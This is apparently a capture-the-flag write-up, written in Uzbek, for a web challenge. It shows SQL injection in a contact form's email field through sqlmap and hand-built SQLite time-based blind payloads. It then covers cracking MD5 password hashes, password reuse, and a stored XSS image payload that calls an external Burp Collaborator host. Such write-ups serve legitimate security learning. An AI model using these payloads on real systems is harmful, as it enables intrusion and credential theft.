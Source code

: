 # Write your report

## Challenge info

```text
Level: Hard
Category: Web

Tavsif:
Tizimda emas, hisobotda zaiflik topish kerak
```

## Solution
1) Directory fuzzing qilish, Contact qismida XSS sinab ko'rganimizdan keyin bitta kichkina quote kiritib ko'rsak zarar qilmaydi Contactdagi email yoki message parametrlariga:

![image](https://github.com/user-attachments/assets/43581ffd-bd75-4939-8f9b-fa4e499b819e)

Booom! Bu degani SQL injection bo'lishi mumkin email parametrida..

2) Birinchi yo'li vaqtni ketkizib o'tirmasdan sqlmap ishlatsak bo'ladi:
```
sqlmap -r raw.txt -p email  --level=3
```
raw.txt ichida request yoziladi:
![image](https://github.com/user-attachments/assets/fcb82c16-d3e1-4f53-bb2a-5b5e6c29dfdc)

3) Sqlmap bilan table nomlarini olib, users table dan hamma ma'lumotni dump qilib olamiz:

![image](https://github.com/user-attachments/assets/a9eee3ae-c2f7-4035-bd04-1e45e18132e6)
Demak tizimda 4 ta user bor 4 xil role bilan, role nomlari user nomlariga to'g'ri kelmayapti lekin qiziq...
![image](https://github.com/user-attachments/assets/c4df5fb3-47e6-47fd-b17d-a780634b6041)
4) Lekin menga manual payload yozish qiziq, demak DBMS SQLite, bu degani backendda taxminan shunday Query foydalanilyapti (Backendni o'zim yozganimda ham baribir boshqa joyda bo'lganda taxminan shunday bo'lishi aniq, shunga taxmin qilinyapti):
```
INSERT INTO contacts (email, message) VALUES ('test@gmail.com', 'test yozuv');
```
Biz kiritgan payload shu Quote ichiga kiritiladi,
```
INSERT INTO contacts (email, message) VALUES ('test@gmail.com', 'test yozuv');
                                                    ^
```
Bu degani bizda Challenge ichida Challenge, VALUES () ni ichidan escape qilish kerak, oddiy boshqa DBMS lardagiga o'xshab escapge qilishga harakat qildim:
```
INSERT INTO contacts (email, message) VALUES ('test@gmail.com', '1')-- - ', 'test yozuv');
```
Maqsad VALUESdagi ') ni yopishimiz kerak, ```', '1')-- - ``` shu uchun kerak oldingi Quoteni yopib, ikkinchi columnga o'zimizni 1 ni kiritib undan keyingi yozuvni Commentga olish. Lekin baribir o'xshamadi, ohiri ) ni yopish o'rniga VALUES () ni ichida Substringga o'xshash Query ishlatish yo'li chiqib qoldi:

```
'||1||'
```
Bu degani:
```
INSERT INTO contacts(email, message) VALUES('' || 1 || '', ?)
```

Email uchum ```test@gmail.com || 1 || ``` yozuvi deb olsak ```||``` orqali ikkita stringni bir-biriga qo'shsak bo'ladi, bu degani "test@gmail1" ko'rinishiga keladi Email DBga yozilgan paytda. Endi

```
'|| SELECT 1 ||'
```

qilib query ishlatsak bo'ladi, teoriya bo'yicha bu error qaytarmaydi hammasi joyida. Agar bitta Quote olib tashlansa 500 javob olamiz, bu degani to'g'ri yo'ldamiz. Endi bizga Boolean based hujum kerak javob to'g'ri-noto'g'riligini bilgani:

```
' || CASE WHEN 1=1 THEN '1' ELSE '0' END || '
```

Lekin CASE WHEN dagi javob har xil bo'lsa ham Response length, status code bir xil keladi. Demak Time-based hujumga o'tishni vaqti keldi, faqat undan oldin harakat qilib ko'rgan yo'limni ko'rsataman:

```
' || CASE WHEN 1=1 THEN "'" ELSE '' END || '
```

Bu degani 1=1 True qaytaradi, keyin Query email ohiriga bitta Quote kiritadi, reja bo'yicha "email'" input DBMSda error berib menga 500 javob qaytishi kerak, lekin Ikkitalik bilan bittalik Quotelarni bitta joyda ishlatishni yo'lini topolmadim.

O'rniga bitta Quote bilan error qaytarish o'rniga uzoqroq vaqtdan keyin javob qaytarishga harakat qilsak bo'ladi ([randomblob docs](https://database.guide/how-randomblob-works-in-sqlite/)):

```
' || CASE WHEN 1=1 THEN hex(randomblob(50000000)) ELSE '' END || '
```

Ohirgi Backenddagi SQL Query shu ko'rinishga keladi:

```
INSERT INTO contacts (email, message) VALUES ('test@gmail.com' || CASE WHEN 1=1 THEN hex(randomblob(50000000)) ELSE '' END || '', 'test yozuv');
```

Information_schemaga o'xshab SQLiteda sqlite_master bor, shu yerdan table name olishimiz mumkin:
```
' || CASE WHEN
(SELECT tbl_name FROM sqlite_master WHERE type='table' LIMIT 1)='users'
THEN hex(randomblob(50000000))
ELSE ''
END || '
```

shu bilan columnlarni birma-bir fuzz qilsak bo'ladi.

5) Bizda 4ta user va parol hashlari bor MD5 ko'rinishida, crack qilsak faqat "appsecchi" uchun parol crack bo'ladi halos parol - "joyland1":

![image](https://github.com/user-attachments/assets/11001d6b-abed-4b6d-a714-394397ae3c44)

6) Lekin bu login va parol bilan kirishni iloji yo'q, dump qilingan user bilan rolega qaraydigan bo'lsak "appsechi" user uchun manager role berilgan, lekin bizda pmanager degan user bor, parolni boshqa userlarga sinab ko'rish kerak..


7) pmanager user uchun crack qilingan "joyland1" parolini ishlatib login qilsak bo'ladi:

![image](https://github.com/user-attachments/assets/f8242f9b-1605-4937-ad28-91e6a9d0a39f)

8) User uchun yangi page "reports" ochiqligini ko'rsak bo'ladi, reportda Demo report ko'rsatilgan:

![image](https://github.com/user-attachments/assets/74c33698-d984-4d78-974f-50531cdd8709)

9) Report ichida yangi login parollarni topish mumkin, ularni oldingi hamma topilgan user bilan parollar ro'yxatiga qo'shamiz:

![image](https://github.com/user-attachments/assets/2125f34a-f26e-40a1-82aa-3111bc9f4a23)

hamma topilgan userlar ro'yxati:
![image](https://github.com/user-attachments/assets/d5db4c19-3396-4a44-b250-b502208c282a)

hamma topilgan parollar ro'yxati:
![image](https://github.com/user-attachments/assets/59e43a19-ba6e-465f-89b0-810e8244697f)

10) Loginda hamma user uchun yangi topilgan parolni Brute force qilamiz, topilgan parol "appsecchi" user uchun to'g'ri keladi:

![image](https://github.com/user-attachments/assets/b3fa4f4b-1570-4ad6-8df2-7d70a0837191)

Aslida brute force qilishni keragi yo'q, demak platforma pentest reportlar saqlash yoki yozish uchun foydalaniladi, bu tizimdan Manager, Pentester, Team Lead pentester, Moderator foydalanadi. Biz topgan Demo reportni "appsecchi" yuklagani ko'rishimiz mumkin, bu degani parol unga tegishli:

![image](https://github.com/user-attachments/assets/a509bbf4-82a7-4c0d-8d5a-b8682bfe154d)

11) "Appsecchi" user yordamida kirilgan yangi feature qo'shiladi:

![image](https://github.com/user-attachments/assets/4bfb6c62-c2bf-4d2f-a8d4-2e6b82d5ea53)

12) "New report" feature orqali yangi report title va text qo'shish mumkin, title boshqa userlarga ko'rinadi, demak taxminan XSS bor, SQLi uchun tekshirishdan foyda yo'q, allaqachon bazaga kirib bo'lganmiz:
```
<img src="http://bcrixlo3qcxq8wpr5x0vysnqchi86zuo.oastify.com/test.html" />
```

![image](https://github.com/user-attachments/assets/de844878-cecc-45c4-ab9d-e9409a41f7d0)

13) Burp Collaboratorda XSS uchun payload ishga tushganini ko'rsak bo'ladi:

![image](https://github.com/user-attachments/assets/4c720c9c-ddbe-4c4f-8579-2d0b7dcdcb42)

Lekin XSS orqali cookie ololmaymiz:
![image](https://github.com/user-attachments/assets/09ad1557-ab6b-4f4d-bf07-e58577511a14)



